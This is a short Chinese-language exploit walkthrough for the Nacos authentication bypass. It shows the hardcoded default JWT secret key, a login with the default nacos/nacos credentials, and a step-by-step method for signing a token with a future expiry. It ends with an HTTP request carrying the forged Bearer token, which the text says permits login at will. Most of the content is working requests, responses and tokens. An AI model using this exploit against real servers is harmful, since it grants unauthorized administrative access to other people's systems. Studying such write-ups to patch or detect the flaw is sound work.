```
nacos.core.auth.default.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789
```

如果采用默认的用户名密码登陆，请求包如下

```
POST /nacos/v1/auth/users/login HTTP/1.1
Host: ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 29

username=nacos&password=nacos
```

会发现回显如下

```
HTTP/1.1 200 
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcwNTA2NzMwN30.ffm1aAW-Lkn0KbVOFO5IWUvRrh8fJblLVf4Jwf4Lcbo
Content-Type: application/json;charset=UTF-8
Date: Fri, 12 Jan 2024 08:48:27 GMT
Connection: close
Content-Length: 162

{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcwNTA2NzMwN30.ffm1aAW-Lkn0KbVOFO5IWUvRrh8fJblLVf4Jwf4Lcbo","tokenTtl":18000,"globalAdmin":true}
```

放到`https://jwt.io/`下解密。exp可以用`https://tool.lu/timestamp/`unix时间戳生成。

```
{
  "sub": "nacos",
  "exp": 1705067307
}
```

根据`security.key`的硬编码值`SecretKey012345678901234567890123456789012345678901234567890123456789`，和一个晚于当前时间的时间戳。生成base64编码。

![image-20240112170234236](image-20240112170234236.png)

放入到请求包中可随意登陆

```
POST /nacos/v1/auth/users/login HTTP/1.1
Host: ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcwNzcyODIyN30.Dx2F0oNSEbWTtxszvifb6lMsqwuCY9S2VQilA03ejCg
Connection: close
```
